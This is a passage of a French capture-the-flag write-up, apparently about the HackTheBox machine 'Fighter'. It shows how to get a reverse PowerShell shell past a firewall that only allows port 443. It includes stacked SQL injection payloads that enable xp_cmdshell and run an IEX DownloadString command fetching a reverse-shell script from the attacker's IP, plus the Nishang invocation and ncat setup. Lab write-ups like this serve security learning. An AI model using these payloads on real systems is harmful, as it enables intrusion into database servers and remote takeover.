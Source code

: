 Le firewall nous autorise uniquement une sortie sur le port 443... C'est peu mais on fera avec :)  

On serait bien tenté d'utiliser la méthode *DownloadFile* de PowerShell pour placer notre backdoor puis l'exécuter sauf que même en utilisant le port 443 les reverse shell n'aboutissent pas. Même en combinant un payload https avec Shellter rien ne semble passer... L'antivirus doit être costaud...  

J'ai eu recours au script [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) de *Nishang* pour obtenir un reverse-powershell sur le port 443.  

Il faut au préalable rajouter la commande powershell à la fin du fichier pour appeler la fonction de reverse shell avec notre adresse IP et port :  

```plain
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.251 -Port 443
```

Comment avoir le même port pour envoyer le script PowerShell lors de la requête web et recevoir notre reverse shell ? Il y a sans doute des solutions compliquées (load-balancing via inspection du contenu) mais j'ai opté pour faire deux écoutes de port consécutives avec *Ncat*.  

La réponse du premier *Ncat* doit se substituer à un serveur web, il faut donc envoyer des entêtes HTTP en plus du script powershell. Pour générer le fichier de la réponse HTTP brute on peut lancer un serveur web rapide :  

```bash
python3 -m http.server
```

et on dumpe la réponse via curl :  

```bash
curl -D- http://127.0.0.1/Invoke-PowerShellTcp.ps1 > reverse_shell_response.txt
```

Les requêtes SQL stacked ressemblent maintenant à ceci (certaines sont surement superflues, je n'ai pas fait le tri) :  

```python
cmds = [
        "1;EXEC sp_configure 'show advanced options',1;RECONFIGURE;",
        "1;EXEC sp_configure 'show advanced options',1;EXEC sp_configure reconfigure;",
        "1;EXEC sp_configure'xP_cMdshell',1;RECONFIGURE;",
        "1;EXEC sp_configure 'OLE Automation Procedures',1;EXEC sp_configure reconfigure;",
        "1;EXEC sp_configure 'ad hoc distributed queries',1;EXEC sp_configure reconfigure;",
        "1;EXEC sp_configure 'clr enabled',1;EXEC sp_configure reconfigure;",
        "1;ALTER SERVER ROLE bulkadmin ADD MEMBER web;",
        "1;GRANT EXECUTE ON master.sys.xP_cmDshell TO web;",
        "1;EXEC master..xP_Cmdshell 'c:/windows/syswow64/windowspowershell/v1.0/powershell.exe -nop -exec bypass -c \"IEX (New-Object System.Net.WebClient).DownloadString(\\\"http://10.10.15.251:443/revshell.ps1\\\")\"';"
]
```

Et ça mort à l'hameçon :  

![HackTeBox Fighter unprivileged reverse shell](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/fighter_first_shell.png)

Round 2, Fight !
----------------
